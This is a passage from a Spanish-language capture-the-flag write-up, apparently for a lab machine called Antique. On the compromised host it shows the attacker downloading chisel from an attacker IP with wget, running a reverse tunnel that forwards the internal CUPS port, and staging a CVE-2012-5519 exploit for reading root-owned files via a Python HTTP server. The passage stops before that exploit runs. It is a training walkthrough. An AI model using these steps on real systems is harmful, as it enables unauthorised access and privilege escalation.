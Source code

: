 Nos descargamos chisel en la máquina víctima

```
lp@antique:/tmp/privesc$ wget http://10.10.16.16/chisel
--2024-07-30 11:32:44--  http://10.10.16.16/chisel
Connecting to 10.10.16.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: ‘chisel’

chisel                                        100%[================================================================================================>]   8.25M  5.43MB/s    in 1.5s    

2024-07-30 11:32:45 (5.43 MB/s) - ‘chisel’ saved [8654848/8654848]
```

En nuestro equipo ejecutamos este comando

```
# ./chisel server --port 443 --reverse         
```

En la máquina víctima ejecutamos este comando

```
lp@antique:/tmp/privesc$ ./chisel client 10.10.16.16:443 R:631:127.0.0.1:631
```

Si mediante nuestro navegador accedemos a `http://localhost:631/` vemos lo siguiente

![](/assets/img/Antique/image_3.png)

He estado buscando exploit para ver si hay vulnerabilidades para `CUPS 1.6.1` y he encontrado este exploit [https://github.com/p1ckzi/CVE-2012-5519](https://github.com/p1ckzi/CVE-2012-5519) que te permite `leer archivos` cuyo propietario sea `root`. Para transferirnos el exploit a la máquina víctima nos `descargamos` el `exploit` y en el `mismo directorio` donde se encuentra el `exploit` nos creamos un `servidor http` con `python`

```
# python -m http.server 80
```

Desde la máquina víctima nos `descargamos` el `exploit`
